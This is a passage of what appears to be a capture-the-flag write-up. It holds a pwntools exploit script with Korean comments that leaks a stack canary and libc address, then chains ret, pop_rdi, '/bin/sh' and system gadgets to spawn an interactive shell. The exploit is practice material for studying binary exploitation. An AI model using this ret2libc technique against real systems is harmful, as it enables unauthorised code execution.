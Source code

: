 ```py

payload += p64(main)

# p.send(payload)
# 여기서는 p.send가 안되는 이유가 위에서 canary를 받을 때, p.recv(7) 뒤에 남은게 read 변수에서 받을 p.recv(6)에 저장되버리기 때문에,
# b'Buf :' 이후에 send를 보내서 해당 출력 이후에 받는 recv를 read에 저장해야 하기 때문에 sendafter를 해줘야함

p.sendafter(b'Buf: ', payload)
read = p.recvn(6) + b'\x00'*0x2
system = u64(read) - read_system_offset
binsh = u64(read) - read_binsh_offset

print(hex(u64(read)))

# second main

payload = b'a'*0x38 + canary + b'a'*0x8

p.send(payload)
# p.sendafter(b'Buf: ', payload)

payload += p64(ret)
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.send(payload)
p.interactive()
```
